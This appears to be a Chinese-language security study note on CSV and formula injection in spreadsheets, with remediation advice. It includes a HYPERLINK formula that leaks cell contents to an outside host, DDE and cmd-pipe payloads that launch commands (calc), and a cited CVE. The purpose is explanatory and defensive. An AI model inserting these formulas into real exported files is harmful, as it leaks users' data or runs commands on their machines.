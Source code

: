 [MSWord - Obfuscation with Field Codes | Staaldraad](https://staaldraad.github.io/2017/10/23/msword-field-codes/)  DDE混淆

[SensePost | Powershell, c-sharp and dde the power within](https://sensepost.com/blog/2016/powershell-c-sharp-and-dde-the-power-within/)

## CSV Injection

### Comma Separated Vulnerabilities

很多软件提供了spreadsheet功能，让csv/xls文件可以下载数据，因此spreadsheet的单元格可能包含不可信来源的数据

#### Formula injection

用户可能通过插入公式的方式将表格内容泄露

```
=HYPERLINK("http://contextis.co.uk?leak="&A1&A2,"Error: please click for further information")
```

#### Delivering exploits

DDE协议被Microsoft Excel  LibreOffice和Apache OpenOffice使用

后两者可以使用该语法调用

```
=DDE(server; file; item; mode)
```

可以通过指定一些特殊的参数来劫持计算机，如

```
=DDE("cmd";"/C calc";"__DdeLink_60_870516294")
```

运行这类命令一般会弹窗提醒该文件包含其他链接的文件，但早年如CVE-2014-3524存在弹窗前就执行命令的情况

除此之外还有INFO等命令也可以访问外部链接，还可以使用IF...ELSE来投递合适的payload

#### Exploiting trust relationships

Excel执行命令的方式很简单

```
=cmd|' /C calc'!A0
```

微软很清楚这类命令有风险，因此会弹窗两次提醒

#### Remediation

缓解的最好方式就是对`= + - @`等开头的单元格使用`'`进行引用，防止其被翻译为公式

Update：这篇文章发现在16年有一些其他的绕过手法，上述使用`'`的方法还是会被`+ - @`绕过。这里介绍了一些更好的方法，包括在`= + - @`前添加`'`（excel在显示时会隐藏该符号），其他方法还有尽量删除输入内容的空格键，以及限制客户端输入的内容为数字和字母

下面OWASP的文章介绍了对于CSV注入一种比较好的转义方式

### The Absurdly Underestimated Dangers of CSV Injection
